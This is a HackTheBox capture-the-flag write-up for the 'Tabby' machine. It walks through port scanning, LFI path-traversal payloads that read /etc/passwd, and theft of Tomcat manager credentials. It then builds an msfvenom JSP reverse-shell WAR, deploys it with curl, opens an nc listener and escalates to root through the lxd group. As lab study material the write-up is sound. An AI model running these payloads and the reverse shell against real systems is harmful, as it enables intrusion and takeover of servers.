```yaml
---
title: HackTheBox - Tabby 
categories: htb LFI lxd
excerpt: | 
  Tabby is a easy difficulty Linux machine. 

feature_text: |
  ## Tabby - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|   256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Mega Hosting
| http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
| http-title: Apache Tomcat
| http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.10.194 and we will see that it is necesary to add host megahostin.htb to /etc/hosts.

This page is vulnerable to LFI (Local File Inclusion) 'http://megahosting.htb/news.php?file=statement' where we can access interesting files such as:
1. ../../../../etc/passwd
2. ../../../../../proc/net/tcp 

In the last local file we can find all open ports of the machine which we couldn't see them before. With nmap we saw all ports that the firewall didn't filter.


It is important to analize 8080 ports (http://10.10.10.194:8080) and there are critical information:
```
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". **Users are defined in /etc/tomcat9/tomcat-users.xml**.
```

We can access to tomcat-users.xml but it seems it is not in that directory, so we can install apache2 in a docker to see where is it.

To get a new instance of docker: `docker run --rm -it ubuntu bash`. Install locate tool and apache2 to see where is the file. 

When we catch the credentials, we can access to http://10.10.10.194:8080/host-manager. 

### Exploit vulnerabilities
Now we can upload a .war file to bumped this machine.
1. msfvenom -l payloads \| grep java.
2. Create a .war: `msfvenom -p java/jsp_shell_reverse_tcp LHOST={your ip} LPORT=443 -f war -o reverse.war`
3. List apps: `curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list' `
4. Upload app: `curl -s -u 'tomcat:'$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war`
5. Listen at: `nc -lnvp 443`
6. Go to: http://10.10.10.194:8080/reverse
 
### Privilege Scalation
We firts have to find where is user.txt. `find / \-name user.txt 2> /dev/null`. It is on ash user so we have to migrate to ash.
In the directory of /var/www/files/ there is a compress zip that we can crack in local mode. We have to get the file in our computer and crack it.
It give us a new password so... Why not try with ash credentials? Yep, it is the same password.


Now we have to see our goups id. Ejecute: `id` and ash is in lxd group.
Using `searchsploit lxd` let us root access.
